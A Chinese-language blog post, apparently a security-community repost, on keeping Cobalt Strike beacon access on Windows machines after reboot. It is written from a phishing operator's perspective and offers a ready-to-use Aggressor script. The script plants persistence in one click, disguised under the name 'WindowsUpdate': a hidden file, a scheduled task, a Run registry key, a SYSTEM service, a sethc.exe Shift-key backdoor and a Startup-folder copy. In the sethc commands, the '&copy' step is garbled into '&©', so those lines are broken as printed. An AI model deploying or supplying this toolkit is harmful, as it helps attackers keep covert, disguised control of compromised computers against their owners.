







CobaltStrike权限维持及其自动化
本文暂不涉及，不考虑免杀，仅为了方便尽可能的保持重启后权限还在。0x01 前言
Cobalt Strike 一款以Metasploit为基础的GUI框架式渗透测试工具，集成了端口转发、服务扫描，自动化溢出，多模式端口监听，exe、powershell木马生成等。笔者在最近一次钓鱼活动中忘记添加自启直接就重启了目标机器，导致权限丢失，很难受，所以决定自己撸一个一键维权的插件，避免再出现此类低级错误。
0x02 权限维持
隐藏文件
windows首选attrib，使用一下命令可直接添加隐藏属性。
attrib C:\test.exe +s +h

+s是设置系统属性，+h设置隐藏属性，如果需要取消将+换成-即可。
定时任务
schtasks允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任务。替代 AT.exe，使用一下命令可以快捷的创建一个定时任务。
schtasks /create /tn WindowsUpdate /tr “C:\test.txt” /sc minute /mo 1
/create是创建新任务，/TN是TaskName的简写，也就是新建的任务的名字，在系统必须唯一，/TR是TaskRun的简写，即为需要运行的程序的路径和文件名。/SC是schedule的简写，指定执行的频率的时间单位， /MO是modifier的缩写，可以理解为执行的频率的时间数值。如果任务已经在执行schtasks并不会重复拉起任务。相比at来说，schtasks的优势在于可以周期运行，重复检索任务是否处于运行状态，可使用下面的命令删除：
schtasks /delete /tn WindowsUpdate注册表
windows系统的开机项位于注册表的：
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
新建一个字符串值并修改数值数据为程序路径即可。命令行：
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\test.exe" /fshift后门
挺老的东西了，需要system权限才能实现，如果平通用户的权限无法修改，其他文件被删时远程连上去触发执行一下也不是坏事。

Windows服务
在windows上系统服务可用SC命令进行增删改。
命令行：
sc create "WindowsUpdate" binpath= "cmd /c start C:\test.exe";
sc config "WindowsUpdate" start= auto
net start WindowsUpdate
需要注意参数值与等号之间要有空格。使用Windows服务进行自启有个很有意思的地方，默认是以system权限启动，也是“提权”的一种不错的方式。另外有个小坑，sc在powershell中传参有问题，执行不成功，必须在cmd里执行。笔者刚开始写插件是全程用bpowershell函数执行命令，在这儿卡了有一会儿，相当难受。
自启目录
本质上来说和注册表修改是同一个，一个是复制文件，一个是修改注册表。接受方式不同，随便一起写了。命令行：
copy "C:\test.exe" "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" /y
attrib "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" +s +h
这里有个值得提起问题，如果用户不是Administrator，目录得改。
0x03 自动化
直接贴成品吧：
popup beacon_bottom {
menu "权限维持" {
item "设置路径" {
local('$bid');
foreach $bid ($1){
prompt_text("filePath", $filePath, {
$filePath = $1;
return $filePath;
});
}
}
item "隐藏文件" {
local('$bid');
foreach $bid ($1){
bshell($1, "attrib \"$filePath\" +s +h");
}
}
item "定时任务" {
local('$bid');
foreach $bid ($1){
bshell($1, "schtasks /create /tn WindowsUpdate /tr \"$filePath\" /sc minute /mo 1");
}
}
item "注册表"{
local('$bid');
foreach $bid ($1){
bshell($1, "reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v WindowsUpdate /t REG_SZ /d \"$filePath\" /f");
}
}
item "SC服务"{
local('$bid');
foreach $bid ($1){
bshell($1, "sc create \"WindowsUpdate\" binpath= \"cmd /c start \"$filePath\"\"&&sc config \"WindowsUpdate\" start= auto&&net start WindowsUpdate");
}
}
item "shift启动"{
local('$bid');
foreach $bid ($1){
bshell($1, "takeown /f C:\\windows\\system32\\sethc.* /a /r /d y&&cacls C:\\windows\\system32\\sethc.exe /T /E /G system:F&© \"$filePath\" C:\\windows\\system32\\sethc.exe /y");
}
}
item "自启动目录"{
local('$bid');
foreach $bid ($1){
bshell($1, "copy \"$filePath\" \"C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\WindowsUpdate.exe\" /y");
bshell($1, "attrib \"C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\WindowsUpdate.exe\" +s +h");
}
}
item "懒人攻略" {
local('$bid');
foreach $bid ($1){
bshell($1, "attrib \"$filePath\" +s +h");
bshell($1, "schtasks /create /tn WindowsUpdate /tr \"$filePath\" /sc minute /mo 1");
bshell($1, "reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v WindowsUpdate /t REG_SZ /d \"$filePath\" /f");
bshell($1, "sc create \"WindowsUpdate\" binpath= \"cmd /c start \"$filePath\"\"&&sc config \"WindowsUpdate\" start= auto&&net start WindowsUpdate");
bshell($1, "takeown /f C:\\windows\\system32\\sethc.* /a /r /d y&&cacls C:\\windows\\system32\\sethc.exe /T /E /G system:F&© \"$filePath\" C:\\windows\\system32\\sethc.exe /y");
bshell($1, "copy \"$filePath\" \"C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\WindowsUpdate.exe\" /y");
bshell($1, "attrib \"C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\WindowsUpdate.exe\" +s +h");
}
}
}
}
先设置好远控所在的目录，然后执行懒人攻略，重启正常情况下即可弹回四个会话。（一个system，三个admin）
Gayhub：
https://github.com/TheKingOfDuck/myScripts/blob/master/PrivilegeHelper.cna喜欢记得点个star哦

推荐阅读：
来源：先知社区
作者：Coolcat
如有侵权，请联系删除